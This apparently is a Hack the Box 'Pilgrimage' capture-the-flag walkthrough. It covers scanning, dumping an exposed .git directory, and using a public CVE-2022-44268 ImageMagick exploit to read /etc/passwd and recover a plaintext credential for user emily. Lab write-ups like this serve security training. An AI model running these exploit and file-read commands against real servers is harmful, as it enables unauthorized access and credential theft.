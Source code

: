# Hack the Box - Pilgrimage

### Port Scan
```JS
rustscan -a 10.10.11.219 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e689b57a-a922-4249-bd1f-e9fa6a10c6b1)

### Service Scan
```JS
nmap -sV -sC -A --min-rate 1000 10.10.11.219 -p 22,80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8e7088bb-eda7-48c9-a997-9aff249734e7)

### HTTP
#### /index.php
```
http://pilgrimage.htb/index.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/926d244a-ec49-4f00-b52e-2470dcf12de7)

#### /login.php
```
http://pilgrimage.htb/login.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/91c3655e-75c4-4434-a7c0-6cb6ffb4f416)

#### /register.php
```
http://pilgrimage.htb/register.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ae7ea9df-3379-4ae2-9bb1-21aab0840fb0)

#### /.git
```
http://pilgrimage,htb/.git/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cf236a5d-c1d5-4e61-b79b-51f8ee5df32f)

### Dump /.git
```JS
git-dumper http://pilgrimage.htb/.git/ git
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8e034218-7ed2-4956-b0e3-821f84f9a665)

## Interaction
### Create Account
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8aace601-5083-47e0-9097-4d362135c8cb)

### Login
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/59281814-60c3-4606-aa98-5b736e27baee)

### Dashboard
```
http://pilgrimage.htb/dashboard.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2baf238c-a0fd-4fa2-8492-96816f3450e4)

### Shrink Image
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/28416acf-9319-4a20-aca5-0f2477231c16)

### Shrunk Image
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/45222057-30a0-40cb-9236-277ac66f3cdb)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b7769831-449a-4948-ad62-33f08d6fbae5)

## Source Code
- The code uses "magick" to shrink the uploaded image.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e1e8ac77-b705-4a8a-a2f3-a1e887ede57d)

### Search Exploits
```
searchsploit magick
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/dfc0dea8-95b2-412e-9509-488bcf24d57e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a7440d9-e578-4433-a503-4c280c16ddd1)

### Exploit - Magick (Arbitrary File Read): CVE-2022-44268
The exploit allows to read arbitrary files on the server.
The suggested exploit is scripted in rust. I will be using an explot scripted in python.
```
https://github.com/kljunowsky/CVE-2022-44268
```
- Prepare Payload
```Python
python3 CVE-2022-44268.py --image image.png --file-to-read /etc/passwd --output payload.png
```
- Upload Payload
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e9cba83e-70ca-4960-a5f2-1807331d9673)

- Payload URL
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/81f3e148-a8bb-4973-8a8b-ff322b454fd6)

- Read Files
```
python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/64f5b8058a661.png
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d7fb8b1c-f9c6-4481-8c53-532b754d4bd8)

- Identified Users
  - root
  - emily

- The code in `/register.php` contains:
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4c690079-74ee-4b7b-b598-9bdad2152018)

- Prepare a payload and read the file as done in the previous step. I had to modify the script as it was throwing an error. Now I get the output as hex.
```
python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/64f5bc11c30f2.png | tee data.hex
```
- Convert the received hex data as an image to string.
```
cat data.hex | xxd -r -p && echo ''
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bf82acca-237f-434e-8797-cebf1f19f690)

- Credentials found: emily:abigchonkyboi123
